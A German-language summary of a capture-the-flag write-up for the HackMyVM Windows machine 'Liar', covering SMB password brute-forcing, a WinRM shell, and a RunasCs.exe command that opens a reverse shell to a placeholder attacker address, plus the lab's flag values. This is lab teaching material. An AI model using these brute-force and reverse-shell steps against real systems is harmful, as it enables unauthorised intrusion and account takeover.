 # Liar - HackMyVM (Easy)

![Liar.png](Liar.png)

## Übersicht

*   **VM:** Liar
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Liar)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2023-10-01
*   **Original-Writeup:** https://alientec1908.github.io/Liar_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Administrator-Rechte auf der Windows-Maschine "Liar" zu erlangen. Der initiale Zugriff erfolgte durch Brute-Forcing von SMB-Credentials für den Benutzer `nica`, nachdem auf der Webseite ein Hinweis auf diesen Benutzer gefunden wurde. Mit den Credentials wurde eine WinRM-Shell als `nica` erlangt. Die erste Rechteausweitung zum Benutzer `akanksha` gelang durch weiteres Brute-Forcing von SMB-Credentials für `akanksha` und anschließende Ausführung einer Reverse Shell mittels des Tools `RunasCs.exe` (als `nica` hochgeladen). Da `akanksha` Mitglied der Gruppe "Administratoren" war, hatte die erhaltene Shell administrative Rechte, was das Auslesen der Root-Flagge ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nikto`
*   `nmap`
*   `smbclient`
*   `evil-winrm`
*   `crackmapexec`
*   `unzip`
*   `python3 http.server`
*   `Start-BitsTransfer` (PowerShell)
*   `RunasCs.exe`
*   `nc` (netcat)
*   Standard Windows-Befehle (`cat`, `dir`, `cd`, `whoami`, `net user`, `type`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Liar" gliederte sich in folgende Phasen:

1.  **Reconnaissance:**
    *   IP-Adresse des Ziels (192.168.2.135) mit `arp-scan` identifiziert.
    *   `/etc/hosts`-Eintrag für `liar.hmv` hinzugefügt.
    *   `nikto`-Scan auf Port 80 identifizierte einen `Microsoft-IIS/10.0`-Server.
    *   `nmap`-Scan bestätigte ein Windows-System mit offenen Ports 80 (HTTP), 135 (msrpc), 139 (netbios-ssn) und 445 (microsoft-ds).

2.  **Web Enumeration & Credential Gathering (SMB Brute-Force):**
    *   Auf der Webseite `http://liar.hmv/` wurde eine Nachricht vom Ersteller "nica" gefunden, was "nica" als potenziellen Benutzernamen markierte.
    *   `crackmapexec` wurde verwendet, um SMB-Credentials für den Benutzer `nica` zu bruteforcen. Das Passwort `hardcore` wurde gefunden.

3.  **Initial Access (WinRM als `nica`):**
    *   Mit `evil-winrm` wurde eine PowerShell-basierte Remote-Shell als `nica` mit dem Passwort `hardcore` auf dem Zielsystem etabliert.
    *   Die User-Flagge (`HMVWINGIFT`) wurde in `C:\Users\nica\user.txt` gefunden.
    *   `net user` zeigte die Existenz der Benutzer `akanksha` und `Administrador`.

4.  **Privilege Escalation (von `nica` zu `akanksha`):**
    *   `crackmapexec` wurde erneut verwendet, um SMB-Credentials für den Benutzer `akanksha` zu bruteforcen. Das Passwort `sweetgirl` wurde gefunden.
    *   Ein direkter WinRM-Login als `akanksha` schlug aufgrund von Autorisierungsfehlern fehl.
    *   Das Tool `RunasCs.exe` wurde auf das Angreifer-System heruntergeladen und entpackt.
    *   `RunasCs.exe` wurde über einen Python-HTTP-Server bereitgestellt und mittels `Start-BitsTransfer` (in der `nica`-WinRM-Shell) auf das Zielsystem nach `C:\Users\nica\` heruntergeladen.
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet (Port 4545).
    *   In der `nica`-Shell wurde `.\RunasCs.exe akanksha sweetgirl cmd.exe -r ANGRIFFS_IP:4545` ausgeführt.
    *   Eine Reverse Shell wurde auf dem Listener empfangen, die als Benutzer `akanksha` lief.

5.  **Privilege Escalation (von `akanksha` zu Administrator):**
    *   In der `akanksha`-Shell bestätigte `net user akanksha`, dass der Benutzer Mitglied der Gruppe `Administradores` ist.
    *   Die erhaltene Shell hatte somit administrative Rechte.
    *   Die Root-Flagge (`HMV1STWINDWZ`) wurde in `C:\Users\Administrador\Desktop\root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Schwache SMB-Passwörter:** Die Passwörter für die Benutzer `nica` (`hardcore`) und `akanksha` (`sweetgirl`) konnten mittels Brute-Force über SMB erraten werden.
*   **Informationspreisgabe auf Webseite:** Ein Hinweis auf einen gültigen Benutzernamen (`nica`) wurde direkt auf der Webseite gegeben.
*   **Ausführung von Tools als anderer Benutzer:** Das Tool `RunasCs.exe` ermöglichte die Ausführung von Befehlen im Kontext eines anderen Benutzers (hier `akanksha`), dessen Credentials bekannt waren, auch wenn ein direkter Login (z.B. via WinRM) für diesen Benutzer nicht erlaubt war.
*   **Fehlende Zugriffsbeschränkungen für WinRM (implizit):** Obwohl `akanksha` sich nicht direkt per WinRM anmelden konnte, war WinRM für `nica` offen und ermöglichte das Hochladen und Ausführen von Tools.
*   **Überprivilegierter Benutzer:** Der Benutzer `akanksha` war Mitglied der Gruppe `Administradores`, was nach erfolgreicher Kompromittierung dieses Kontos direkten administrativen Zugriff gewährte.

## Flags

*   **User Flag (`C:\Users\nica\user.txt`):** `HMVWINGIFT`
*   **Root Flag (`C:\Users\Administrador\Desktop\root.txt`):** `HMV1STWINDWZ`

## Tags

`HackMyVM`, `Liar`, `Easy`, `Windows`, `SMB Brute-Force`, `WinRM`, `RunasCs`, `Privilege Escalation`, `IIS`
